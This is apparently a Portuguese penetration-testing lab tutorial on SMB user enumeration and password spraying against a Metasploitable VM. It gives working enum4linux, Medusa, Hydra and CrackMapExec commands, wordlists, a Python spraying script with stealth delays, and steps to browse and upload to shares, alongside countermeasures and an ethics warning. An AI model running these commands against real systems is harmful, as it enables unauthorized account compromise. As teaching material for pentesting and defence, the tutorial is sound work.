

# 🔐 Etapa 3.3: Password Spraying SMB - Ataque em Cadeia

## 📋 Objetivo

Esta etapa demonstra uma técnica avançada de ataque em cadeia, combinando **enumeração SMB** para descobrir usuários válidos seguida de **password spraying** para comprometer credenciais. Esta abordagem simula cenários reais de penetration testing onde informações coletadas em uma fase são utilizadas para ataques mais direcionados.

---

## 🎯 Conceitos Fundamentais

### 🔍 O que é Password Spraying?

- **Estratégia inversa** ao brute force tradicional
- **Poucas senhas** testadas contra **muitos usuários**
- **Menor risco** de bloqueio de contas
- **Mais silencioso** que ataques de força bruta
- **Eficaz** contra políticas de bloqueio por usuário

### 📊 Password Spraying vs Brute Force

| Aspecto               | Password Spraying               | Brute Force Tradicional         |
| --------------------- | ------------------------------- | ------------------------------- |
| **Estratégia**        | Poucas senhas × Muitos usuários | Muitas senhas × Poucos usuários |
| **Risco de Detecção** | Baixo                           | Alto                            |
| **Bloqueio de Conta** | Evita                           | Provoca facilmente              |
| **Tempo**             | Moderado                        | Rápido ou muito lento           |
| **Eficácia**          | Alta em ambientes reais         | Média (detectável)              |

### 🌐 Protocolo SMB/CIFS

- **Server Message Block**: Protocolo de compartilhamento de arquivos
- **Portas**: 139 (NetBIOS) e 445 (SMB direto)
- **Autenticação**: NTLM, Kerberos
- **Vulnerabilidades comuns**: Credenciais fracas, configurações inadequadas

---

## 🛠️ Pré-requisitos

### ✅ Verificações Necessárias

- [ ] Conectividade com o alvo confirmada
- [ ] Porta 445 (SMB) acessível
- [ ] Ferramentas de enumeração instaladas
- [ ] Wordlists preparadas

### 🔍 Teste de Conectividade SMB

```bash
# Verificar se SMB está ativo
nmap -p 445 192.168.56.101

# Teste básico de conexão SMB
smbclient -L //192.168.56.101 -N
```

---

## 🕵️ Passo 1: Enumeração SMB com enum4linux

### 🎯 O que é enum4linux?

- **Ferramenta de enumeração** para sistemas Windows/Samba
- **Coleta informações** sobre usuários, grupos, shares
- **Baseada** em ferramentas Samba (smbclient, rpcclient, net)
- **Automatiza** múltiplas técnicas de enumeração

### 🚀 Execução da Enumeração Completa

```bash
enum4linux -a 192.168.56.101 | tee enum4_output.txt
```

#### 🔧 Análise dos Parâmetros

| Parâmetro | Descrição                                       |
| --------- | ----------------------------------------------- |
| **-a**    | All - Executa todas as verificações disponíveis |
| **-U**    | Enumera usuários                                |
| **-S**    | Enumera shares                                  |
| **-G**    | Enumera grupos                                  |
| **-P**    | Enumera informações de política de senhas       |
| **-r**    | Enumera usuários via RID cycling                |
| **-o**    | Enumera informações do SO                       |

### 📊 Saída Esperada do enum4linux

```bash
# Exemplo de informações coletadas
Starting enum4linux v0.8.9
Target Information:
 Target ........... 192.168.56.101
 RID Range ........ 500-550,1000-1050
 Username ......... ''
 Password ......... ''

Users on 192.168.56.101:
index: 0x1 RID: 0x3e8 acb: 0x00000010 Account: games       Name:   Desc:
index: 0x2 RID: 0x1f5 acb: 0x00000010 Account: nobody      Name: nobody    Desc:
index: 0x3 RID: 0x4f0 acb: 0x00000010 Account: bind        Name:   Desc:
index: 0x4 RID: 0x402 acb: 0x00000010 Account: proxy       Name: proxy     Desc:
index: 0x5 RID: 0x4f4 acb: 0x00000010 Account: syslog      Name:   Desc:
index: 0x6 RID: 0x4f2 acb: 0x00000010 Account: user        Name: just a user,,,    Desc:
index: 0x7 RID: 0x3e9 acb: 0x00000010 Account: ftp         Name:   Desc:
index: 0x8 RID: 0x4ee acb: 0x00000010 Account: mail        Name: mail      Desc:
index: 0x9 RID: 0x4f1 acb: 0x00000010 Account: news        Name: news      Desc:
index: 0xa RID: 0x3ec acb: 0x00000010 Account: uucp        Name: uucp      Desc:
index: 0xb RID: 0x4f5 acb: 0x00000010 Account: man         Name: man       Desc:
index: 0xc RID: 0x4f3 acb: 0x00000010 Account: lp          Name: lp        Desc:
index: 0xd RID: 0x4ef acb: 0x00000010 Account: postfix     Name:   Desc:
index: 0xe RID: 0x4f6 acb: 0x00000010 Account: klog        Name:   Desc:
index: 0xf RID: 0x4f7 acb: 0x00000010 Account: sshd        Name:   Desc:
index: 0x10 RID: 0x3ea acb: 0x00000010 Account: msfadmin    Name: msfadmin,,,       Desc:
index: 0x11 RID: 0x4f8 acb: 0x00000010 Account: bind        Name:   Desc:
index: 0x12 RID: 0x4f9 acb: 0x00000010 Account: postfix     Name:   Desc:
index: 0x13 RID: 0x4fa acb: 0x00000010 Account: ftp         Name:   Desc:
index: 0x14 RID: 0x4fc acb: 0x00000010 Account: postgres    Name: PostgreSQL administrator,,,  Desc:
index: 0x15 RID: 0x4fb acb: 0x00000010 Account: mysql       Name: MySQL Server,,,   Desc:
index: 0x16 RID: 0x4fd acb: 0x00000010 Account: tomcat55    Name:   Desc:
index: 0x17 RID: 0x4fe acb: 0x00000010 Account: distccd     Name:   Desc:
index: 0x18 RID: 0x4ff acb: 0x00000010 Account: service     Name: service account,,,        Desc:
index: 0x19 RID: 0x500 acb: 0x00000010 Account: telnetd     Name:   Desc:
index: 0x1a RID: 0x501 acb: 0x00000010 Account: proftpd     Name:   Desc:
index: 0x1b RID: 0x502 acb: 0x00000010 Account: statd       Name:   Desc:
index: 0x1c RID: 0x503 acb: 0x00000010 Account: snmp        Name:   Desc:
```

### 🔍 Análise dos Resultados

```bash
# Visualizar o arquivo de saída
less enum4_output.txt

# Extrair apenas usuários (método alternativo)
grep "Account:" enum4_output.txt | cut -d: -f5 | cut -d' ' -f2
```

---

## 📝 Passo 2: Criação de Wordlists Estratégicas

### 👥 Seleção de Usuários Alvo

Com base na enumeração, identificamos usuários estratégicos:

```bash
echo -e "user\nmsfadmin\nservice\npostgres\nmysql\nftp\nmail\nwww-data" > smb_users.txt
```

#### 🎯 Análise Estratégica dos Usuários

| Usuário      | Categoria       | Probabilidade | Justificativa                 |
| ------------ | --------------- | ------------- | ----------------------------- |
| **user**     | Genérico        | Alta          | Conta de usuário comum        |
| **msfadmin** | Target-specific | Muito Alta    | Usuário padrão Metasploitable |
| **service**  | Serviço         | Alta          | Conta de serviço genérica     |
| **postgres** | Database        | Média         | Administrador PostgreSQL      |
| **mysql**    | Database        | Média         | Servidor MySQL                |
| **ftp**      | Serviço         | Média         | Conta do serviço FTP          |
| **mail**     | Serviço         | Baixa         | Conta do sistema de email     |
| **www-data** | Web             | Baixa         | Conta do servidor web         |

### 🔐 Criação da Lista de Senhas para Spraying

```bash
echo -e "password\n123456\nWelcome123\nmsfadmin\nadmin\nservice\nPassword1" > senhas_spray.txt
```

#### 🔍 Análise Estratégica das Senhas

| Senha          | Categoria       | Justificativa                    | Probabilidade |
| -------------- | --------------- | -------------------------------- | ------------- |
| **password**   | Genérica        | Senha mais comum mundialmente    | Muito Alta    |
| **123456**     | Sequencial      | Segunda senha mais usada         | Muito Alta    |
| **Welcome123** | Corporativa     | Padrão em ambientes empresariais | Alta          |
| **msfadmin**   | Target-specific | Senha padrão do Metasploitable   | Alta          |
| **admin**      | Administrativa  | Senha administrativa comum       | Média         |
| **service**    | Serviço         | Comum para contas de serviço     | Média         |
| **Password1**  | Política básica | Atende políticas simples         | Média         |

### 📊 Estratégia do Password Spraying

- **Total de usuários**: 8
- **Total de senhas**: 7
- **Combinações**: 56 tentativas
- **Risco de bloqueio**: Baixo (max 7 tentativas por usuário)
- **Tempo estimado**: 2-5 minutos

---

## ⚔️ Passo 3: Execução do Password Spraying

### 🛠️ Comando de Ataque com Medusa

```bash
medusa -h 192.168.56.101 -U smb_users.txt -P senhas_spray.txt -M smbnt -t 2 -T 50
```

#### 🔧 Análise Detalhada dos Parâmetros

| Parâmetro | Valor            | Descrição                                |
| --------- | ---------------- | ---------------------------------------- |
| **-h**    | 192.168.56.101   | Host/IP alvo                             |
| **-U**    | smb_users.txt    | Arquivo de usuários enumerados           |
| **-P**    | senhas_spray.txt | Arquivo de senhas para spraying          |
| **-M**    | smbnt            | Módulo SMB/NTLM                          |
| **-t**    | 2                | Threads simultâneas (baixo para stealth) |
| **-T**    | 50               | Timeout por tentativa (50 segundos)      |

#### ⚡ Configuração Stealth

- **2 threads**: Minimiza detecção
- **Timeout alto**: Evita problemas de rede
- **Sequencial por usuário**: Reduz padrões suspeitos

### 🎯 Como Funciona o Attack Flow



---

## 🏆 Passo 4: Interpretação dos Resultados

### ✅ Cenário de Sucesso

```bash
ACCOUNT FOUND: [smbnt] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS]
```

### 📊 Informações da Credencial Descoberta

| Campo         | Valor      | Observação                |
| ------------- | ---------- | ------------------------- |
| **Protocolo** | SMB/NTLM   | Autenticação bem-sucedida |
| **Usuário**   | msfadmin   | Conta administrativa      |
| **Senha**     | msfadmin   | Credencial padrão         |
| **Acesso**    | Confirmado | Login SMB válido          |

### ❌ Cenários de Falha

```bash
# Nenhuma credencial encontrada
ACCOUNT CHECK: [smbnt] Host: 192.168.56.101 User: service Password: Password1 [FAILED]

# Problemas de conectividade
ERROR: connect (Connection refused)

# Serviço indisponível
ERROR: Host 192.168.56.101 does not appear to be listening on port 445
```

---

## 🧪 Passo 5: Validação e Exploração do Acesso SMB

### 🔍 Teste de Credenciais Válidas

```bash
# Listar shares disponíveis
smbclient -L //192.168.56.101 -U msfadmin
```

#### 📋 Exemplo de Saída Bem-sucedida

```bash
Enter WORKGROUP\msfadmin's password: [msfadmin]

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        tmp             Disk      oh noes!
        opt             Disk
        IPC$            IPC       IPC Service (metasploitable server (Samba 3.0.20-Debian))
        ADMIN$          Disk      IPC Service (metasploitable server (Samba 3.0.20-Debian))

Server               Comment
---------            -------

Workgroup            Master
---------            -------
WORKGROUP            METASPLOITABLE
```

### 🗂️ Exploração de Shares

```bash
# Acessar share específico
smbclient //192.168.56.101/tmp -U msfadmin

# Comandos dentro do SMB shell
smb: \> ls          # Listar arquivos
smb: \> pwd         # Diretório atual
smb: \> get file    # Baixar arquivo
smb: \> put file    # Upload arquivo
smb: \> exit        # Sair
```

### 🔒 Análise de Permissões

```bash
# Verificar permissões detalhadas
smbclient //192.168.56.101/tmp -U msfadmin -c "ls; quit"

# Teste de escrita
echo "teste" > test.txt
smbclient //192.168.56.101/tmp -U msfadmin -c "put test.txt; quit"
```

---

## 🛡️ Contramedidas e Defesas

### 🔒 Proteções contra Password Spraying

#### 1. Políticas de Senha Robustas

```bash
# Configurações recomendadas
- Comprimento mínimo: 12 caracteres
- Complexidade obrigatória
- Histórico de senhas: 24 últimas
- Renovação forçada: 90 dias
- Bloqueio após: 3 tentativas
```

#### 2. Monitoramento e Detecção

```bash
# Eventos a monitorar (Windows Event Log)
- Event ID 4625: Failed logon attempts
- Event ID 4648: Explicit credential usage
- Event ID 4776: Credential validation attempts

# Indicadores de Password Spraying
- Múltiplas falhas de login de mesmo IP
- Tentativas espalhadas no tempo
- Padrões de usuários sequenciais
```

#### 3. Configurações SMB Seguras

```bash
# /etc/samba/smb.conf (Samba)
[global]
   # Desabilitar SMBv1
   min protocol = SMB2

   # Logging detalhado
   log level = 2

   # Restringir acesso por IP
   hosts allow = 192.168.1.0/24
   hosts deny = ALL

   # Exigir autenticação
   security = user
   guest account = nobody
   map to guest = Never
```

### 📊 Implementação de Contramedidas

| Medida                      | Eficácia   | Complexidade | Custo    |
| --------------------------- | ---------- | ------------ | -------- |
| **Política de senha forte** | Alta       | Baixa        | Gratuito |
| **Account lockout**         | Média      | Baixa        | Gratuito |
| **Monitoramento SIEM**      | Muito Alta | Alta         | Alto     |
| **Segmentação de rede**     | Alta       | Média        | Médio    |
| **MFA**                     | Muito Alta | Média        | Médio    |

---

## 🔍 Técnicas Avançadas

### 🛠️ Ferramentas Alternativas

#### CrackMapExec (CME)

```bash
# Password spraying com CME
crackmapexec smb 192.168.56.101 -u smb_users.txt -p senhas_spray.txt

# Com output detalhado
crackmapexec smb 192.168.56.101 -u smb_users.txt -p senhas_spray.txt --verbose
```

#### Hydra

```bash
# Password spraying com Hydra
hydra -L smb_users.txt -P senhas_spray.txt smb://192.168.56.101
```

#### Script Python Personalizado

```python
#!/usr/bin/env python3
import subprocess
import time
import sys

def test_smb_login(host, user, password):
    cmd = f"smbclient -L //{host} -U {user}%{password} -N"
    try:
        result = subprocess.run(cmd.split(), capture_output=True, text=True, timeout=10)
        return "NT_STATUS_LOGON_FAILURE" not in result.stderr
    except:
        return False

def password_spray():
    host = "192.168.56.101"
    users = ["user", "msfadmin", "service", "postgres"]
    passwords = ["password", "123456", "Welcome123", "msfadmin"]

    print(f"[*] Starting password spray against {host}")

    for password in passwords:
        print(f"[*] Trying password: {password}")
        for user in users:
            if test_smb_login(host, user, password):
                print(f"[+] SUCCESS: {user}:{password}")
                return
            else:
                print(f"[-] Failed: {user}:{password}")
            time.sleep(1)  # Delay para stealth
        time.sleep(5)  # Delay maior entre senhas

if __name__ == "__main__":
    password_spray()
```

### ⚡ Otimizações Avançadas

```bash
# Medusa com configurações otimizadas para stealth
medusa -h 192.168.56.101 -U smb_users.txt -P senhas_spray.txt -M smbnt \
  -t 1 \          # 1 thread apenas
  -T 60 \         # Timeout maior
  -s \            # SSL/TLS se disponível
  -r 0 \          # Sem retry
  -R 3            # 3 segundos entre tentativas
```

---

## 📚 Análise de Vulnerabilidades

### 🎯 Classificação MITRE ATT&CK

- **T1110.003** - Brute Force: Password Spraying
- **T1135** - Network Share Discovery
- **T1021.002** - Remote Services: SMB/Windows Admin Shares

### 🔍 Cadeia de Ataque (Kill Chain)

1. **Reconnaissance** - Identificação de serviços SMB
2. **Resource Development** - Criação de wordlists
3. **Initial Access** - Password spraying
4. **Discovery** - Enumeração de shares
5. **Collection** - Acesso a arquivos sensíveis
6. **Lateral Movement** - Propagação na rede

### 📊 Impacto Potencial

| Aspecto               | Impacto | Descrição                        |
| --------------------- | ------- | -------------------------------- |
| **Confidencialidade** | Alto    | Acesso a arquivos compartilhados |
| **Integridade**       | Médio   | Possível modificação de arquivos |
| **Disponibilidade**   | Baixo   | Sistemas permanecem operacionais |
| **Lateral Movement**  | Alto    | Base para ataques subsequentes   |

---

## ⚠️ Considerações Éticas e Legais

### 🚨 **AVISO CRÍTICO**

> Password spraying deve ser realizado **APENAS** em:
>
> - Ambientes de laboratório controlados
> - Sistemas próprios ou com autorização explícita
> - Testes de penetração contratados
> - Programas de bug bounty autorizados

### 📋 Checklist Legal

- [ ] Autorização por escrito obtida
- [ ] Escopo bem definido e limitado
- [ ] Ambiente isolado da produção
- [ ] Políticas de retenção de dados definidas
- [ ] Plano de remediação preparado

### ✅ Boas Práticas Éticas

- **Minimizar impacto**: Usar configurações stealth
- **Documentar tudo**: Registrar todas as atividades
- **Comunicar descobertas**: Reportar vulnerabilidades responsavelmente
- **Proteger dados**: Não acessar informações desnecessárias

---

## 📚 Próximos Passos

### 🎯 Com Acesso SMB Obtido

1. **Enumeração adicional**:

   - Mapeamento completo de shares
   - Identificação de arquivos sensíveis
   - Coleta de informações de sistema

2. **Lateral movement**:

   - Teste de credenciais em outros sistemas
   - Busca por credenciais armazenadas
   - Escalação de privilégios

3. **Persistência**:
   - Criação de backdoors
   - Agendamento de tarefas
   - Modificação de configurações

### 🔄 Se o Ataque Falhar

1. **Wordlists mais extensas**:

   - SecLists password lists
   - Wordlists específicas do setor
   - Combinações baseadas em OSINT

2. **Outras técnicas**:
   - Kerberoasting
   - AS-REP roasting
   - LLMNR/NBT-NS poisoning

---

## 📊 Métricas e Resultados

### ⏱️ Performance Esperada

| Cenário                  | Tempo     | Tentativas | Taxa Sucesso |
| ------------------------ | --------- | ---------- | ------------ |
| **Ambiente padrão**      | 2-5 min   | 56         | 80%          |
| **Ambiente hardened**    | 5-15 min  | 56         | 20%          |
| **Ambiente corporativo** | 10-30 min | 56         | 40%          |

### 📈 Fatores de Sucesso

- **Qualidade da enumeração**: 35%
- **Wordlists direcionadas**: 30%
- **Timing adequado**: 20%
- **Configuração de segurança do alvo**: 15%

---

## 🔧 Troubleshooting

### ❌ Problemas Comuns

#### 1. Enumeração Falha

```bash
# Problema: enum4linux não retorna usuários
# Solução: Testar com credenciais nulas
enum4linux -u "" -p "" 192.168.56.101

# Alternativa: usar rpcclient
rpcclient -U "" -N 192.168.56.101
$> enumdomusers
```

#### 2. SMB Connection Refused

```bash
# Problema: Conexão recusada na porta 445
# Solução: Verificar firewall e serviços
nmap -p 139,445 192.168.56.101
telnet 192.168.56.101 445
```

#### 3. Authentication Errors

```bash
# Problema: NT_STATUS_LOGON_FAILURE
# Solução: Verificar formato de credenciais
smbclient -L //192.168.56.101 -U "DOMAIN\\user%password"
```

---

## 🏁 Conclusão

Esta etapa demonstrou com sucesso:

- ✅ **Enumeração SMB** completa com enum4linux
- ✅ **Análise estratégica** de usuários descobertos
- ✅ **Password spraying** automatizado e sigiloso
- ✅ **Validação de acesso** obtido
- ✅ **Exploração de shares** SMB
- ✅ **Implementação de contramedidas** defensivas

### 🎓 Competências Desenvolvidas

- Enumeração avançada de serviços SMB
- Técnicas de password spraying
- Análise de resultados de enumeração
- Exploração de shares de rede
- Desenvolvimento de estratégias defensivas

### 🔗 Integração com Etapas Anteriores

Esta etapa complementa as anteriores ao demonstrar:

- **Progressão natural** após descoberta de serviços
- **Técnicas mais sofisticadas** que brute force simples
- **Combinação de ferramentas** para ataques em cadeia
- **Abordagem metodológica** de penetration testing

---

## 📖 Recursos Adicionais

### 📚 Documentação Técnica

- [Samba Documentation](https://www.samba.org/samba/docs/)
- [MITRE ATT&CK - Password Spraying](https://attack.mitre.org/techniques/T1110/003/)
- [enum4linux Manual](https://tools.kali.org/information-gathering/enum4linux)

### 🛠️ Ferramentas Relacionadas

- **CrackMapExec**: SMB enumeration and exploitation
- **Impacket**: Python SMB library and tools
- **Responder**: LLMNR/NBT-NS/mDNS poisoner
- **BloodHound**: Active Directory reconnaissance

### 🎓 Treinamentos Recomendados

- **SANS SEC560**: Network Penetration Testing
- **OffSec PEN-200**: Penetration Testing with Kali Linux
- **eLearnSecurity eCPPT**: Certified Professional Penetration Tester
- **GIAC GPEN**: Penetration Tester Certification
